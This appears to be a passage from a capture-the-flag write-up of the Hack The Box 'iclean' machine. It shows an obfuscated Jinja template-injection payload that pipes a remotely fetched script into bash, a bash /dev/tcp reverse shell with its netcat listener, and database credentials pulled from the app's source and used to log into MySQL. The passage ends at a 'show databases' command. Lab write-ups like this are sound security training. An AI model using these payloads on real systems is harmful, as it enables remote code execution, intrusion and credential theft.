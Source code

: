 ```
"invoice_id=&form_type=scannable_invoice&qr_link={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl+10.10.14.21/shell+|bash')|attr('read')()}}"
```

### Victim downloads file
```
┌──(kali㉿kali)-[~/hackthebox/iclean]
└─$  python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [08/Apr/2024 21:49:58] "GET /shell HTTP/1.1" 200 -
```
### Contents of shell
```
┌──(kali㉿kali)-[~/hackthebox/iclean]
└─$ cat shell                                                          
bash -i >& /dev/tcp/10.10.14.21/8888 0>&1
```
# Reverse Shell obtained as www-data
```
┌──(kali㉿kali)-[~/hackthebox/iclean]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.12] 37994
bash: cannot set terminal process group (1219): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ 
```

# Enumerating SQL database
The app.py file contained the SQL credentials as seen below.
```
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```
## Logging into database and extracting hashes
```
www-data@iclean:/opt/app$ mysql -u iclean -p
mysql -u iclean -p
Enter password: pxCsmnGLckUb

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 27308
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
```